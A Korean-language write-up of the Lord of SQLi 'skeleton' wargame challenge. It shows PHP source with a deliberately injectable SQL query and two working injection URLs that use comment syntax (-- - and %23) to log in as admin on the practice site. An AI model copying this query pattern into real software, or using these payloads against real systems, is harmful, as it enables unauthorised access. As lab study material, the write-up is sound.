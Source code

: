# LOS - skeleton 

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제는 생각보다 간단하다. 
주석 처리에 대한 이해가 있다면 쉽게 풀 수 있는 문제이다. 
(본인은 sql과 php 문법이 헷갈려서 오래걸렸다;)

걸러내는 조건은 많지 않지만 query에 'and 1=0'이라는 false문이 하나 있어서 어떤 값을 넣어도 false가 반환되는 구조이다. 하지만 우리가 지금까지 pw를 \'(single quote)로 넘겼던 것처럼 false 문도 넘길 수 있는 방법이 주석처리이다. 

뒤에 주석문구인 #(%23)을 넣어주면 그 뒤부터는 주석으로 인식해서 값으로 들어가지 않게된다.  #(주석)뿐만 아니라 -- -(한줄 주석)으로 처리해줘도 같은 기능을 한다. (query가 한 줄 이기때문에)

<한줄 주석(-- -)사용>

```url
https://los.rubiya.kr/chall/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php?pw=%27or%20id=%27admin%27%20--%20-
```

<주석(#)사용>

```url
https://los.rubiya.kr/chall/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php?pw=%27or%20id=%27admin%27%23
```

#대신에 %23을 넣어주는 이유는 #이라는 문자 자체가 필터링 될 수 있기 때문에 query에서 #을 나타내는 문자로 대체해주는 것이다.

![1565334642433](C:\Users\qkrwl\Documents\web\los\LOS - skeleton-clear.png)